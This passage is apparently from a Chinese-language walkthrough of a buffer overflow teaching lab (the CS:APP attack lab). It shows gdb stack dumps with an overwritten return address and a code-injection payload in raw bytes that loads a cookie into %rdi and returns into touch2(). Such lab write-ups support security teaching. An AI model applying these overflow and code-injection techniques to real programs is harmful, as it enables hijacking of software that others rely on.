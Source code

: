 ```
(gdb) print /x $rsp
$1 = 0x5561dc78
(gdb) x/6g 0x5561dc78
0x5561dc78:     0x6464646464646464      0x6464646464646464
0x5561dc88:     0x6464646464646464      0x6464646464646464
0x5561dc98:     0x6565656565656565      0x00000000004017c0
```

可以看到，地址`(%rsp + 0x28)`处变成了我们的形状。接下来继续执行：

```
(gdb) stepi
0x00000000004017bd      16      in buf.c
(gdb) print /x *(long long *) ($rsp)
$7 = 0x4017c0
```

`ret`之后，%rsp 来到了我们想要的地方。继续执行：

```
(gdb) stepi
touch1 () at visible.c:25
```

赢！

### 2. touch2()

`touch2()`有些不一样，它对参数有些要求：

```c
void touch2(unsigned val) {
    // ...
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

这要求我们注入一些代码，把我们拿到的 cookie 赋给参数 val(即寄存器%rdi)。有一条 mov 指令是肯定的，关键在于怎么先跳到注入代码再跳到`touch2()`。这里的正常做法应该是 mov 完了之后把`touch2()`的地址入栈，如下(转自[https://zhuanlan.zhihu.com/p/60724948]())：

```
48 c7 c7 <cookie>         # mov    <cookie>,%rdi
68 ec 17 40 00            # pushq  $0x4017ec
c3                        # retq

...

78 dc 61 55 00 00 00 00   # 注入代码的地址
```
